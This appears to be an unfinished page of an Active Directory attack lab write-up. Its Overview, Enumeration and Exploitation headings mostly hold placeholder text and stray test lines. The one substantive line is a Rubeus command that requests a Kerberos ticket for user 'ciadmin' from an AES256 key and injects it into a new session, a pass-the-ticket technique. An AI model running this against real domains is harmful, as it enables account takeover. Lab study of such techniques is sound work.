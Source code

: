 ## Overview 
// Some code

Hello Trying
Are u syncing

## Enumeration 
// Some code

## Exploitation 
// Some code
``
```
C:\AD\Tools\Rubeus.exe asktgt /user:ciadmin /aes256:<aes256 key of ciadmin> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
